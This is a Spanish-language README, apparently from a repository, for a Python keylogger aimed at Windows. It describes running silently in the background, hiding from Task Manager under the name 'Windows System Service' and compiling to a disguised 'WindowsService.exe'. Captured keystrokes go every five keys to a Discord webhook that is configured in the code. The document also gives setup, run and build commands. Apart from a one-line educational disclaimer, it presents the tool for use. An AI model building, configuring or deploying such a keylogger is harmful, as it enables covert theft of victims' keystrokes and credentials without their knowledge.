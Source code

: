 # KEYLOGGER

**⚠️ ADVERTENCIA: Este software es solo para fines educativos. El uso de keyloggers sin autorización es ilegal.**

## Características

- Webhook hardcodeado en el código
- Se ejecuta automáticamente en segundo plano
- Se oculta del administrador de tareas
- Envía datos capturados al webhook cada 5 teclas
- Se puede compilar a ejecutable
- Funciona sin interfaz gráfica

## Configuración

### 1. Configurar el Webhook

Abre `main.py` y reemplaza la línea 12:

```python
self.webhook_url = "https://discord.com/api/webhooks/TU_WEBHOOK_AQUI"
```

Con tu webhook real:

```python
self.webhook_url = "https://discord.com/api/webhooks/1234567890/abcdefghijklmnopqrstuvwxyz"
```

### 2. Instalar Dependencias

```bash
pip install -r requirements.txt
```

## Uso

### Opción 1: Ejecutar como Script Python

```bash
python main.py
```

### Opción 2: Compilar a Ejecutable

1. **Compilar:**
```bash
build.bat
```

2. **El ejecutable estará en:** `dist\WindowsService.exe`

3. **Ejecutar el .exe** y funcionará automáticamente

## Funcionamiento

- **Ejecución automática**: Se inicia inmediatamente sin interfaz
- **Ocultación**: Se oculta del administrador de tareas como "Windows System Service"
- **Registro silencioso**: Captura todas las teclas sin mostrar nada
- **Envío automático**: Envía datos al webhook cada 5 teclas
- **Segundo plano**: Funciona completamente en segundo plano

## Características del Webhook

- Envía mensajes formateados con emojis
- Incluye timestamp de cada tecla
- Muestra estadísticas de captura
- Funciona completamente en silencio

## Notas Importantes

- Solo funciona en Windows
- Requiere permisos de administrador para algunas funciones
- El webhook debe estar configurado correctamente en el código
- Los datos se envían cada 5 teclas capturadas
- Se puede detener con ESC (si se detecta)
- El ejecutable se ejecuta automáticamente sin mostrar nada

## Estructura de Archivos

```
KEYLOGGER/
├── main.py              # Código principal (configurar webhook aquí)
├── requirements.txt     # Dependencias
├── build.bat           # Script de compilación
└── README.md           # Este archivo
``` 

